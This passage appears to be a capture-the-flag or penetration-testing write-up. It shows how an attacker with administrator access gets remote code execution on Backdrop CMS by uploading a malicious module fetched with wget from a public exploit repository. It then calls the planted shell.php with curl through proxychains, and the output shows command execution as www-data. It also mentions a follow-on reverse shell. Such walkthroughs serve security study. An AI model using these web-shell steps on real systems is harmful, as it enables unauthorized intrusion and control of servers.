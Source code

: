<figure><img src="../../../.gitbook/assets/image (432).png" alt=""><figcaption></figcaption></figure>

There is an RCE for this that involves CSRF, but since I'm the administrator, I don't need to do CSRF. I can directly do the RCE.

{% embed url="https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS" %}

```
wget https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS/releases/download/backdrop/reference.tar
```

Head to Functionality > Install New Modules > Manual Installation > Upload the .tar file.  Then, install it and we can check the RCE:

```
$ proxychains curl -k https://172.17.0.2/modules/reference/shell.php?cmd=id
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.2:443  ...  OK
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then, we can get another reverse shell on this Docker container.&#x20;

<figure><img src="../../../.gitbook/assets/image (500).png" alt=""><figcaption></figcaption></figure>
